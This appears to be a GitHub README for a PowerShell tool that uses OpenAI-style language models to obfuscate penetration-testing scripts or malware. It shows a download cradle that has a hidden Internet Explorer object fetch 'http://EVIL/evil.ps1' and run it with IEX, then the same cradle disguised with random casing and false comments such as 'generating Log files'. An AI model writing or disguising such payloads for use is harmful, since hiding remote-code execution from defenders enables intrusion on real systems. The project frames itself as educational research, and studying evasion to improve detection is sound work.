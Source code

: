# Invoke-GPTObfuscation
Invoke-GPTObfuscation is a PowerShell Obfuscator that utilizes OpenAI or compatible text-completion models to obfuscate your PowerShell penetration testing code, malware, or any other sensitive script. For Educational & Research purposes only.

This is mostly demonstrational, and will frequently create invalid code. You'll need to come up with a better prompt to get good results. If you make any improvements, please consider submitting a pull request!

---

## Credits
### Author: Hunter Watson
### Original Repo: https://github.com/hwvs/Invoke-GPTObfuscation
### License: Mozilla Public License 2.0

---

## Usage

Run the CLI tool (in a powershell window): `./Invoke-GPTObfuscation.ps1`

Use the module in your code
```powershell
# load the module however is easiest for you, eg:
$module_path = $pwd.Path + "/Invoke-GPTObfuscation.psm1"
Invoke-Expression (Get-Content $module_path -Raw)
  
#...

$script_obfuscated = Invoke-GPTObfuscation -ScriptBlock $script -PromptTemplateFile $prompt_template_path -Verbose $true
```

---

## Results 

Before:
```powershell
$ie=New-Object -comobject InternetExplorer.Application;
$ie.visible=$False;
$ie.navigate('http://EVIL/evil.ps1');
start-sleep -s 5;
$r=$ie.Document.body.innerHTML;
$ie.quit();
IEX $r
```

After:
```powershell
# generating Log files
$Strawberry = New-Object -CoMObjEcT inTErnETeXPLOreR.Application;
$strawberry.vISiblE = $fAlSe;
$STRaWbeRRy.NAVigatE('HttP://evIl/evil.ps1');
stArT-SlEEp -s 5;

# Updating log directory path
$r = $StrawberrY.DoCument.BoDy.InneRHTML;

# Cleanup
$strawBerRy.quiT();

# Execute payload
IeX $R
```
*(Note: This result was cherry-picked)*
